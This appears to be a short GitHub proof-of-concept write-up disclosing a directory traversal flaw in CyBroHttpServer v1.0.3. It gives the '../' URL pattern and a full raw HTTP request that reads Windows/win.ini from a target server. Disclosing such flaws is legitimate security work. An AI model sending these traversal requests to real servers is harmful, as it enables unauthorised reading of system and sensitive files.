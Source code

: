 # CyBroHttpServer-v1.0.3-Directory-Traversal
Directory Traversal in CyBroHttpServer v1.0.3 allows an attacker to read sensitive informations.

# PoC
To exploit vulnerability, someone could use 'http://[host]/../../../../../../../../' request to get some informations from the target. 
  For example: http://[host]/../../../../../../../../Windows/win.ini'


```
GET /../../../../Windows/win.ini HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-1.png)

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-2.png)
